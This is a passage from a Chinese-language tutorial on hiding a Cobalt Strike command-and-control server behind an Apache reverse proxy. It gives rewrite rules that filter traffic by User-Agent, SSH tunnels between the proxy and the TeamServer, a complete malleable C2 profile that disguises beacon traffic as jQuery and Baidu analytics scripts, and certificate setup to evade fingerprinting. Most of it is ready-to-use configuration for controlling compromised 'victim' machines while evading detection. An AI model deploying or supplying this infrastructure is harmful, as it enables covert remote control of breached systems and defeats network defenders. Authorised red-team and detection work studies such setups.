        <Directory /usr/lib/cgi-bin>
            SSLOptions +StdEnvVars
        </Directory>
    </VirtualHost>
</IfModule>
```

域名做好解析后，访问确认配置成功。


**配置重写规则并转发请求**

做重写，`RewriteEngine On` 开启重写，将 UA 匹配成功的请求重写到本地 `https://127.0.0.1:8443`。不用疑惑，一会儿会把此端口转发到 C2 服务器监听器上。

```plaintext
<IfModule mod_ssl.c>
    <VirtualHost _default_:443>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # 开启 SSL
        SSLEngine on
        # 配置 SSL 证书
        SSLCertificateFile "/etc/letsencrypt/live/www.example.com/fullchain.pem"
        # 配置 SSL 证书私钥
        SSLCertificateKeyFile "/etc/letsencrypt/live/www.example.com/privkey.pem"

        # 允许反向代理转发 HTTPS 请求，默认是只能转发 HTTP。
        SSLProxyEngine on
        # 不去校验证书 Common Name 和 Host 是否一致。
        # 不光是反代站点允许启用，在转发请求到 C2 监听器时如果用的是自签名证书，不关闭会握手出错。
        SSLProxyCheckPeerName off
        # 不检查证书是否过期，万一 HTTPS 监听器证书过期，照样传输数据加密，不会 502 无法上线。
        SSLProxyCheckPeerExpire off

        # 开启重写
        RewriteEngine On
        # 重写模块表达式匹配
        RewriteCond %{REQUEST_METHOD} ^(GET|POST) [NC]
        RewriteCond %{REQUEST_URI} ^(/js/jquery-3.3.1.min.js|/js/hm.js)$
        RewriteCond %{HTTP_USER_AGENT} "^Mozilla/5.0 AppleWebKit/537.36.37 \(KHTML, like Gecko\) Chrome/110.0.0.0 Safari/537.36.37$"
        # 重写规则匹配成功执行此规则
        RewriteRule ^.*$ "https://127.0.0.1:8443%{REQUEST_URI}" [P,L]
        # 重写规则匹配失败执行此规则
        RewriteRule ^.*$ https://www.example.com/? [R,L]

        <FilesMatch "\.(cgi|shtml|phtml|php)$">
                SSLOptions +StdEnvVars
        </FilesMatch>
        <Directory /usr/lib/cgi-bin>
                SSLOptions +StdEnvVars
        </Directory>
    </VirtualHost>
</IfModule>
```

这里要详细解释重写规则是什么含义，不管是 RewriteCond 还是 RewriteRule 他们都分三段 `<RewriteRule | RewriteRule> <rule> [flag]`。RewriteCond 是重写条件判断，RewriteRule 是条件满足或不满足执行的重写规则

先看重写条件 RewriteCond。

```plaintext
RewriteCond %{REQUEST_METHOD} ^(GET|POST) [NC]
RewriteCond %{REQUEST_URI} ^(/js/jquery-3.3.1.min.js|/js/hm.js)$
RewriteCond %{HTTP_USER_AGENT} "^Mozilla/5.0 AppleWebKit/537.36.37 \(KHTML, like Gecko\) Chrome/110.0.0.0 Safari/537.36.37$"
```

这里有 3 条规则意味着都必须满足。

1.  匹配 HTTP 请求方法是否以 GET 或 POST 开头，\[NC\] 标志意味请求方法不区分大小写。
2.  匹配请求 URL 是否包含这 JS 文件，可以有 GET 参数。
3.  匹配请求 User-Agent 值是否存在 Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36。UA 中 537.36.37，其中 .37 是自己加的，确保标识唯一。

规则匹配成功或失败执行 RewriteRule。

第一条是成功时执行。前面三条重写规则都匹配成功则将客户端发来的任意请求重写到 `https://127.0.0.1:8443`，所有 URL 赋在后面。\[P,L\] 其中的 P 是使用 mod\_proxy 反向代理将请求发送出去，L 则表示这条规则执行完后，后面所有规则不再执行。

```plaintext
RewriteRule ^.*$ "https://127.0.0.1:8443%{REQUEST_URI}" [P,L]
```

第二条则是失败时执行。重写规则中任意一条匹配失败，执行此规则重定向到反向代理应用。R 表示重定向，默认响应代码是 302，如果想要其他 3XX 代码可以设置 \[R=3XX\]。当然也可删除规则，失败相当于访问反向代理应用，只有符合条件的才会转发请求。

```plaintext
RewriteRule ^.*$ https://www.example.com/? [R,L]
```

另一种方法是使用反向代理 `ProxyPass` 转发请求（**待补充测试。不一定有 URI 匹配功能。比如 ProxyPassMatch 也可以达到相同目的**）。

```plaintext
ProxyPass "/" "https://localhost:8443"
```

C2 TeamServer 监听在 127.0.0.1:59103 端口上，我们通过本地端口转发，将 50050 端口转发到 C2 TeamServer。后续连接只需要本地连环回端口即可连上 TeamServer。

```plaintext
PS C:\Users\gbb> SSH -N -L 50050:127.0.0.1:59103 -i D:\gbb\misc\C2-PublicKey.pem ubuntu@XX.XX.X.XXX
```

> PS：
> 
> 如果要多人连接的话，可以创建一个账户。
> 
> ```plaintext
> sudo useradd -c "C2 TeamServer Connect Account" -s /sbin/nologin -r c2
> ```
> 
> 更改密码。
> 
> ```plaintext
> sudo passwd c2
> ```
> 
> 大家都通过 SSH 将 TS 端口转发到本地连接。
> 
> ```plaintext
> ssh -N -L 50050:127.0.0.1:59103 c2@www.example.com
> ```
> 
> 如果觉得密码太麻烦，可以配置 SSH 证书登录，只允许 c2 系统账户连接 SSH。

连接上后开启 HTTPS 监听器，要反弹的服务器 IP HTTPS Hosts 和 HTTPS Host (Stager) 填反代地址或域名（由于使用 Stageless Payload 选项 HTTPS Host (Stager) 设置就用不上，仅仅作为占位使用，后面所有使用此类型 Payload 不再赘述），HTTPS Port (C2) 填写反代端口，HTTPS 监听器端口会取 HTTPS Port (C2) 作为默认值，要是想监听在其他端口可以填在 HTTPS Port (Bind) 内，这样就是自定义。这里我就偷懒使用 HTTPS Port (C2) 默认值作为 HTTPS 监听器端口。


要注意 C2 设置的监听器 IP 同时监听在 0.0.0.0 和 127.0.0.1，最好 C2 防火墙只允许开放 22 端口

这里所有重写和代理规则都配置成功后，需要配置反代和 C2 TeamServer 通信，因为 C2 和反代是两台服务器，所以做个端口转发，让 C2 的 443 监听器转发到反向代理 8443 端口上，也意味着反向代理能将正确验证后的请求通过本地环回 8443 端口转发回 C2 443 监听器上，打通 C2 监听器和反向代理网络连通性。

```plaintext
ubuntu@TeamServer:~$ ssh -N -R 8443:127.0.0.1:443 root@XXX.XXX.XXX.XX
```

使用 CURL 看看反向代理是否正常检测 URI、User-Agent、Request Method。

符合重写规则 C2 都能收到请求。


不正确的规则都重定向到反向代理域名的正常应用上。



**C2 Profile HTTP 请求配置**

注意此时创建 Stageless Payload 还无法上线，因为请求不符合重写规则一定会被重定向，包括后面的 Beacon 通信也是一样。

这里写 Profile 定制 Stager 和 Beacon 的 HTTP 请求以符合反代重写规则。

```plaintext
# 全局变量
set sleeptime "10000";
set jitter    "50";  
set useragent "Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37";  
set host_stage "false"; # Do not use staging. Must use stageles payloads, now the default for Cobalt Strike built-in processes


# 所有 HTTP 请求响应配置
http-config {
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=10, max=100";
    header "Connection" "Keep-Alive";
    # Use this option if your teamserver is behind a redirector
    set trust_x_forwarded_for "true";
    # Block Specific User Agents with a 404 (added in 4.3)
    set block_useragents "curl*,lynx*,wget*";
}


# 设置 HTTPS 监听器证书
https-certificate {
    set keystore "www.example.com.store";
    set password "123456";
}


# 设置 Beacon 命令请求与响应
http-get {  

    set uri "/jquery-3.3.1.min.js";

    client {  

        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Referer" "https://www.example.com/";
        header "Accept-Encoding" "gzip, deflate";

        metadata { 
            base64url;  
            prepend "SIDCC=";
            prepend "SEARCH_SAMESITE=CgQIxZcB;";  
            prepend "lQaRlebM9FunyP84_a05drda1X6FPXP26n5G7mWCRN2bN_Gu";
            append "AFvIBn9dV3DED_b9abMYP15oQHAYTY3TuRA5Dy8Etv42aCa9TOkpoR5MLV4MtgiDNguD_3uUfw%2F%2BFE6%2F%2FX8T4Q%3D%3D"; 
            header "Cookie";  
        }  
    }  

    server {  

        header "Server" "Apache";  
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        header "Content-Encoding" "gzip";  

        output {
            # 2nd Line
            prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
            prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
            append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
            print;  
        }  
    }  
}  


# 设置 Beacon 命令请求与响应
http-post {  
    # 请求 URI
    set uri "/hm.js";  

    # 具体请求设置
    client {  

        header "Accept" "/*";
        header "Accept-Encoding" "gzip, deflate, br";
        header "Cache-Control" "no-cache";
        header "DNT" "1";
        header "Referer" "https://www.example.com/";

        id {  
            prepend "ca96c3a9";
            append "182fb6d097cb2a1a4c";
            parameter "si";  
        }  


        output {  
            mask;
            base64url;  
            print;  
        }  
    }  

    # 请求服务端响应
    server {  

        header "Server" "Apache";  
        header "Content-Encoding" "gzip";  
        header "Content-Type" "text/javascript; charset=utf-8";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";

        output { 
            mask;
            base64url;

            prepend "(function(){var h={},mt={},c={id:\"ca96c3507ee04e4a1sdzd5b2a1a4c\",dm:[\"www.example.com\",\"www.example.com\"],js:\"tongji.baidu.com/hm-web/js/\",etrk:[\"%7b%22*.www.example.com%5c%2f*%22%3a%5b%22html%3ebody%3ediv%5b12%5d%3ediv%5b1%5d%3ediv%5b1%5d%3ea%5b1%5d%3ei%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b1%5d%3ediv%5b2%5d%3ediv%5b5%5d%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b2%5d%3ediv%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b4%5d%3ediv%22%2c%22html%3ebody%3ediv%5b12%5d%3ediv%5b5%5d%3ediv%5b2%5d%3ediv%5b2%5d%3ea%22%2c%22%23btntoTop%22%2c%22%23searchBtn%22%2c%22%23collectBtn%22%2c%22%23advertImg%22%2c%22%23menu%22%5d%2c\"],cetrk:[],cptrk:[],icon:'',ctrk:[\"%5b%22%5c%2f%5c%2fmy.www.example.com%5c%2fToolMember%5c%2fBargain%5c%2fIndex*%22%2c%22rank.www.example.com%5c%2fbaidupc%5c%2f*%5c%2f*.com%22%2c%22data.www.example.com%22%5d\"],vdur:1800000,age:31536000000,qiao:0,pt:0,spa:0,aet:'',Hb:\"utm_campaign\",ka:0,B:Math.round(+new Date/1E3),protocol:\"https:\"===document.location.protocol?\"https:\":\"http:\",L:\"https:\",Da:6E5,bc:5E3,Ea:5,ca:1024,G:2147483647,ra:\"hca cc cf ci ck cl cm cp cu cw ds vl ep et ja ln lo lt rnd si su v cv lv api sn r ww p u tt\".split(\" \"),ga:t,Pb:{id:\"data-hm-id\",Tb:\"data-hm-class\",jc:\"data-hm-xpath\",content:\"data-hm-content\",hc:\"data-hm-tag\",link:\"data-hm-link\"},Rb:\"data-hm-enabled\",Qb:\"data-hm-disabled\",xb:\"https://hmcdn.baidu.com/static/tongji/plugins/\",na:[\"UrlChangeTracker\"],Nb:{$b:0,ic:1,Xb:2},Yb:\"https://fclog.baidu.com/log/ocpcagl?type=behavior&emd=euc\"};\";";
            append "(function(){var e=h.o,a={D:function(){if(\"\"!==c.icon){var a=c.icon.split(\"|\"),k=e.kb+\"?s=\"+c.id,d=\"https://hmcdn.baidu.com/static\"+a[0]+\".gif\";document.write(\"swf\"===a[1]||\"gif\"===a[1]?'<a href=\"'+k+'\" target=\"_blank\"></a>':'<a href=\"'+k+'\" target=\"_blank\">'+a[0]+\"</a>\")}}};";

            print;  
        }  
    }  
}
```

这份配置文件主要分两大块，其一 http-get 用于设置 Stageless Payload 上线时发送包含主机信息的请求与响应，其二 http-post 用于设置 Beacon 执行命令时发送的请求和响应。

部分内容有注释容易理解大致作用及如何配置的，只有 https-certificate 没有说明从哪里来，怎么生成的。要生成 Cobalt Strike 能用的证书先将 Let's Encrypt 申请的证书转为 .store 格式。

```plaintext
ubuntu@TeamServer:~/CobaltStrike4.3$ sudo openssl pkcs12 -inkey /etc/letsencrypt/live/www.example.com/privkey.pem -in /etc/letsencrypt/live/www.example.com/cert.pem -export -out www.example.com.pkcs12
Enter Export Password:
Verifying - Enter Export Password:
ubuntu@TeamServer:~/CobaltStrike4.3$ sudo keytool -importkeystore -srckeystore www.example.com.pkcs12 -srcstoretype pkcs12 -destkeystore www.example.com.store
Importing keystore ts.pkcs12 to ts.store...
Enter destination keystore password:  
Re-enter new password: 
Enter source keystore password:  
Entry for alias 1 successfully imported.
Import command completed:  1 entries successfully imported, 0 entries failed or cancelled
```

改变证书也就改变了默认证书 cobaltstrike.store 带来的特征，下面是默认证书与生成的有效证书特征信息。

```plaintext
ubuntu@TeamServer:~/CobaltStrike4.3$ keytool -list -v -keystore cobaltstrike.store -storepass 123456
Keystore type: PKCS12
Keystore provider: SUN

Your keystore contains 1 entry

Alias name: cobaltstrike
Creation date: Aug 9, 2022
Entry type: PrivateKeyEntry
Certificate chain length: 1
Certificate[1]:
Owner: CN=Microsoft IT TLS CA 5, OU=Microsoft IT, O=Microsoft Corporation, L=Redmond, ST=Washington, C=US
Issuer: CN=Microsoft IT TLS CA 5, OU=Microsoft IT, O=Microsoft Corporation, L=Redmond, ST=Washington, C=US
Serial number: 30fc9887
Valid from: Tue Aug 09 14:33:24 UTC 2022 until: Mon Nov 07 14:33:24 UTC 2022
Certificate fingerprints:
     SHA1: 5C:E6:C8:6E:BB:63:63:65:3F:19:CC:BA:28:85:28:DD:C8:7A:14:F0
     SHA256: DA:21:12:31:EC:58:73:A0:65:0F:F3:33:78:0D:10:82:6D:E8:23:55:D2:E3:2B:D6:6E:B0:A2:C6:46:87:D4:AB
Signature algorithm name: SHA256withRSA
Subject Public Key Algorithm: 2048-bit RSA key
Version: 3

Extensions: 

#1: ObjectId: 2.5.29.14 Criticality=false
SubjectKeyIdentifier [
KeyIdentifier [
0000: 89 5C AA B7 9B 1F 66 D7   71 5A BA FC F2 AA 3B 0A  .\....f.qZ....;.
0010: AF F2 BB 41                                        ...A
]
]


*******************************************
*******************************************


ubuntu@TeamServer:~/CobaltStrike4.3$ keytool -list -v -keystore www.example.com.store -storepass 123456
Keystore type: PKCS12
Keystore provider: SUN

Your keystore contains 1 entry

Alias name: 1
Creation date: Mar 4, 2023
Entry type: PrivateKeyEntry
Certificate chain length: 1
Certificate[1]:
Owner: CN=www.example.com
Issuer: CN=R3, O=Let's Encrypt, C=US
Serial number: 4c79fc7805aacd2c10feb98bae12aadabe4
Valid from: Thu Feb 09 01:23:12 UTC 2023 until: Wed May 10 01:23:11 UTC 2023
Certificate fingerprints:
     SHA1: 07:20:78:82:82:30:26:31:3A:9B:BB:47:D5:FC:34:37:36:5B:A0:EA
     SHA256: B8:E4:D1:3A:72:82:87:44:26:7B:D0:67:F5:58:1B:99:BE:70:B5:86:91:3E:EA:49:08:33:38:DC:33:D7:91:C8
Signature algorithm name: SHA256withRSA
Subject Public Key Algorithm: 2048-bit RSA key
Version: 3

Extensions: 

#1: ObjectId: 1.3.6.1.4.1.11129.2.4.2 Criticality=false
0000: 04 81 F3 00 F1 00 76 00   7A 32 8C 54 D8 B7 2D B6  ......v.z2.T..-.
0010: 20 EA 38 E0 52 1E E9 84   16 70 32 13 85 4D 3B D2   .8.R....p2..M;.
0020: 2B C1 3A 57 A3 52 EB 52   00 00 01 86 33 FB E8 B3  +.:W.R.R....3...
0030: 00 00 04 03 00 47 30 45   02 21 00 D6 F2 F6 19 3C  .....G0E.!.....<
0040: F2 A8 49 F7 F6 F8 72 AF   C1 EC 29 2F 94 4B D9 EE  ..I...r...)/.K..
0050: B1 42 4B 0E 5D D2 76 69   98 F7 20 02 20 44 78 ED  .BK.].vi.. . Dx.
0060: 12 9A 37 1D EB A8 61 B8   FD A6 43 C1 3B 99 3A B7  ..7...a...C.;.:.
0070: E5 C3 81 67 87 AE 92 95   0E 19 4A 31 2F 00 77 00  ...g......J1/.w.
0080: E8 3E D0 DA 3E F5 06 35   32 E7 57 28 BC 89 6B C9  .>..>..52.W(..k.
0090: 03 D3 CB D1 11 6B EC EB   69 E1 77 7D 6D 06 BD 6E  .....k..i.w.m..n
00A0: 00 00 01 86 33 FB E8 80   00 00 04 03 00 48 30 46  ....3........H0F
00B0: 02 21 00 D5 FA FA 15 20   EC 42 4B 0D 6D 1A E2 36  .!..... .BK.m..6
00C0: 3A D0 90 23 7B EB C4 F5   4D 5F BE 76 F1 24 24 81  :..#....M_.v.$$.
00D0: 66 EF 17 02 21 00 E8 31   39 F2 3A B3 83 93 34 80  f...!..19.:...4.
00E0: 72 71 1E B6 D6 56 ED D2   E4 0F 4A 3F 6C 2F 08 25  rq...V....J?l/.%
00F0: 66 84 63 78 0D A8                                  f.cx..


#2: ObjectId: 1.3.6.1.5.5.7.1.1 Criticality=false
AuthorityInfoAccess [
  [
   accessMethod: ocsp
   accessLocation: URIName: http://r3.o.lencr.org
, 
   accessMethod: caIssuers
   accessLocation: URIName: http://r3.i.lencr.org/
]
]

#3: ObjectId: 2.5.29.35 Criticality=false
AuthorityKeyIdentifier [
KeyIdentifier [
0000: 14 2E B3 17 B7 58 56 CB   AE 50 09 40 E6 1F AF 9D  .....XV..P.@....
0010: 8B 14 C2 C6                                        ....
]
]

#4: ObjectId: 2.5.29.19 Criticality=true
BasicConstraints:[
  CA:false
  PathLen: undefined
]

#5: ObjectId: 2.5.29.32 Criticality=false
CertificatePolicies [
  [CertificatePolicyId: [2.23.140.1.2.1]
[]  ]
  [CertificatePolicyId: [1.3.6.1.4.1.44947.1.1.1]
[PolicyQualifierInfo: [
  qualifierID: 1.3.6.1.5.5.7.2.1
  qualifier: 0000: 16 1A 68 74 74 70 3A 2F   2F 63 70 73 2E 6C 65 74  ..http://cps.let
0010: 73 65 6E 63 72 79 70 74   2E 6F 72 67              sencrypt.org

]]  ]
]

#6: ObjectId: 2.5.29.37 Criticality=false
ExtendedKeyUsages [
  serverAuth
  clientAuth
]

#7: ObjectId: 2.5.29.15 Criticality=true
KeyUsage [
  DigitalSignature
  Key_Encipherment
]

#8: ObjectId: 2.5.29.17 Criticality=false
SubjectAlternativeName [
  DNSName: www.example.com
]

#9: ObjectId: 2.5.29.14 Criticality=false
SubjectKeyIdentifier [
KeyIdentifier [
0000: 9E 59 BE C6 71 BB 4F 29   83 A1 13 46 70 34 57 E3  .Y..q.O)...Fp4W.
0010: BA A5 91 BB                                        ....
]
]


*******************************************
*******************************************


ubuntu@TeamServer:~/CobaltStrike4.3$ 
```

这里我们讨论下修改 teamserver 客户端启动脚本和 C2 Profile 默认证书的意义。

Beacon 通信时是通过反向代理向 Cobalt Strike HTTPS 监听器转发请求，C2 藏在反向代理后面的，只有反向代理向 C2 HTTPS 监听器转发请求时会验证书。从受害机视角来看请求是发给反向代理的，只看到是反向代理证书信息，这样没必要修改 HTTPS 监听器默认证书改变默认特征。同理 C2 服务器对外只留 SSH 服务，客户端连接时使用 SSH 转发流量，别人也不会扫到，teamserver 脚本证书也没必要改。

藏在反代后面的 C2 要改变 HTTPS 监听器证书的唯一原因，是 Beacon 通信会用 .store 内公钥加密数据传输，使用默认公钥加密很可能被抓流量，其他人能根据默认私钥解密传输数据。

编写完成使用 CobaltStrike 自带 c2lint 工具检查配置语法是否有误，以及伪装后请求过程展示。这里我们先关注 HTTP 流量伪装，其它后渗透配置和 OPSEC 暂不处理，有需要请参考 [C2 Profile](#C2+Profile) 小节学习。

```plaintext
ubuntu@TeamServer:~/CobaltStrike4.3$ ./c2lint C2-CustomProfile-Student.profile 

===============
default
===============

http-get
--------
GET /jquery-3.3.1.min.js HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Host: www.example.com
Referer: https://www.example.com/
Accept-Encoding: gzip, deflate
Cookie: lQaRlebM9FunyP84_a05drda1X6FPXP26n5G7mWCRN2bN_GuSEARCH_SAMESITE=CgQIxZcB;SIDCC=U3Kn6kZn68hBLhA_LzvgawAFvIBn9dV3DED_b9abMYP15oQHAYTY3TuRA5Dy8Etv42aCa9TOkpoR5MLV4MtgiDNguD_3uUfw%2F%2BFE6%2F%2FX8T4Q%3D%3D
User-Agent: Mozilla/5.0 AppleWebKit/537.36.37 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36.37

HTTP/1.1 200 OK
Date: Sat, 4 Mar 2023 17:28:14 GMT
Server: Apache
Content-Length: 5601
Keep-Alive: timeout=10, max=100
Connection: keep-alive
Content-Type: application/javascript; charset=utf-8
Cache-Control: max-age=0, no-cache
Pragma: no-cache
Content-Encoding: gzip

/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */!function(e,t){"use strict";"object"==typeof module&&"object"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error("jQuery requires a window with a document");return t(e)}:t(e)}("undefined"!=typeof window?window:this,function(e,t){"use strict";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return"function"==typeof t&&"number"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement("script");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+"":"object"==typeof e||"function"==typeof e?l[c.call(e)]||"object":typeof e}var b="3.3.1",w=function(e,t){return new w.fn.init(e,t)},T=/^[\s\uFEFF\xA0]+|[\s\uFEFF\xA0]+$/g;w.fn=w.prototype={jquery:"3.3.1",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for("boolean"==typeof a&&(l=a,a=arguments[s]||{},s++),"object"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:"jQuery"+("3.3.1"+Math.random()).replace(/\D/g,""),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||"[object Object]"!==c.call(e))&&(!(t=i(e))||"function"==typeof(n=f.call(t,"constructor")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?"":(e+"").replace(T,"")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,"string"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return 